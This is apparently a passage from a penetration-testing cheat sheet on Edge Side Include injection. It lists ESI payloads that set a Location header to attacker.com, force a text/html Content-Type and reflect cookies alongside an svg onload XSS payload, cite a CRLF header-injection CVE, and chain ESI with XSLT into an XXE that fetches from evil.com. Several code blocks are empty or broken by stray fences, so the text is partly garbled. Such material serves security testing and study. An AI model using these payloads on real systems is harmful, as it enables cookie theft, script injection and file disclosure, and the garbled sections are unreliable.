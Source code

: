 ```
<!--esi $add_header('Location','http://attacker.com') -->
```
```
#### Add Header

- Add header in forced request

```xml
<esi:include src="http://example.com/asdasd">

</esi:include>
```
```
- Add header in response (useful to bypass "Content-Type: text/json" in a response with XSS)

```bash
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```
```
#### CRLF in Add header (**CVE-2019-2438)**

```xml
<esi:include src="http://example.com/asdasd">

</esi:include>
```
```
#### Akamai debug

This will send debug information included in the response:

```xml

```
```
### ESI + XSLT = XXE

It's possible to use **`eXtensible Stylesheet Language Transformations (XSLT)`** syntax in ESI just by indicating the param **`dca`** value as **`xslt`**. Which might allow to abuse **XSLT** to create and abuse a XML External Entity vulnerability (XXE):

```xml

```
```
XSLT file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
\&xxe
```
```
Check the XSLT page:

[[xslt-server-side-injection-extensible-stylesheet-language-transformations.md]]

### References

- [[https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/|https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/]]
```